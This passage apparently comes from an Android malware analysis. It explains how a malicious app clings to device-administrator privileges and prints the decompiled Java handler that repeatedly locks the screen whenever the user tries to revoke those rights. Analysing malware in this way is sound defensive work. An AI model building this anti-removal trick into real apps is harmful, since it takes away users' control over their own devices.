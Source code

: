 ![admin_ask](admin_ask.png)

## Admin privileges

As we saw, the app will ask for admin privileges until the user accepts or uninstalls. However, if the privileges are granted to the malicious app, a trick
is used to keep these privileges as long as possible:

> ```java
>public CharSequence onDisableRequested(final Context paramContext, Intent paramIntent){
>	Intent startIntent = paramContext.getPackageManager().getLaunchIntentForPackage("com.android.settings");
>	startIntent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
>	paramContext.startActivity(paramIntent);
>	final DevicePolicyManager policyManager = (DevicePolicyManager)paramContext.getSystemService(DEVICE_POLICY_SERVICE);
>	policyManager.lockNow();
>	new Thread(new Runnable(){
>		public void run(){
>			for (int i = 0; i < 70;i++){
>				policyManager.lockNow();
>				try{
>					Thread.sleep(100L);
>				}
>				catch (InterruptedException localInterruptedException){
>					localInterruptedException.printStackTrace();
>				}
>			}
>		}
>	}).start();
>	return "";
>}
> ```
